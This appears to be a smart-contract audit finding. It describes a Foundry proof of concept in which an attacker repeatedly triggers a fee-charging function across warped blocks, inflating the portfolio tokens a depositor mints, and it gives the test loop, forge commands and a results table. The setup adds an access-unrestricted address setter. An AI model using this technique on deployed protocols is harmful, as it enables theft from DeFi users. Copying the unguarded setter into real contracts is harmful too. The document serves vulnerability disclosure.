 ## Requirement
**My setup doens't deploy via proxy, so a circular dependecy arose between feeModule.sol and portfolio.sol**

- therefore, i added this function to FeeModule.sol
```sol
function ChangePortfolioAddress(address _portfolio) public {
   portfolio = IPortfolio(_portfolio);
}
```
- And OfCourse this line:
```
import {IPortfolio} from  "src/contracts/core/interfaces/IPortfolio.sol";
```

**Now, All You have to do is to place gist in test/ folder such that test/POC.sol file is created**
- I have already provided a link to the gist in the issue comments



## The Attack

**`This attack outcomes depends on two things:`**
- the no of blocks, the attack is repeated in
- the timestamp difference between these blocks

**Analyze `_simulateAttacksInDifferentBlocks()`**
```diff
    function _simulateAttacksInDifferentBlocks() internal {
        vm.startPrank(attacker);
+        uint blocks = 20; // no of blocks
        for (uint i = 1; i < blocks; i++) {
+            vm.warp(block.timestamp + 50); //time-diff between blocks
            feeModule._chargeProtocolAndManagementFees();
        }
        vm.stopPrank();
    }
```
In Normal deposit, as per our current configurations, user will get  
- `9500000000000000`

**run this test**
```bash
forge test --contracts test/POC.sol --match-test test_NormalDeposit -vvv
```

**Now we wanna see change in protocol behaviour after it has been attacked:**

**Remember at this point, the alice is depositing after the protocol  has been attacked**


**`Here is table demonstrating different outcomes of increase in user portfolio balance, if he deposits the same amount after the protocol is attacked:`**


| Blocks | t+50             | t+10             | t+1              |
| ------ | ---------------- | ---------------- | ---------------- |
| 20     | 9500029476677719 | 9500005895327870 | 9500000589532575 |
| 200    | 9500308733951601 | 9500061745983933 | 9500006174579890 |
| 2000   | 9503101758218631 | 9500620270603930 | 9500062025233455 |
| 20000  | 9531077202869606 | 9506207323135757 | 9500620549828824 |



**where,**
- `blocks:`  *no of blocks attack is repeated in*
```sol
uint blocks = 20; // no of blocks
```
- `t + n:`  *timestamp difference between the no of blocks attack is repeated in*
```sol
vm.warp(block.timestamp + 50); //time-diff between blocks
```

**Try it yourself by running this test with different configurations**
```bash
forge test --contracts test/POC.sol --match-test test_AfterAttackDeposit -vvv
```

`[+]` **At this point it is clear how much protocol's calculations are affected, due to this attack the protocol can be rigged in lot of unimaginable ways, like you just saw in the table above how much more alice's same deposits yeild**

`[+]` **He should be only getting `9500000000000000` but due to the attack he was able to increase that number from least `9500000589532575` to `9531077202869606` as shown in the table above**

`[+]` **Which is `589532575` to `31077202869606` more tokens**

`[+]` **that means a user can mint more than `31077202869606` portflio tokens if he does the same deposits after the attack**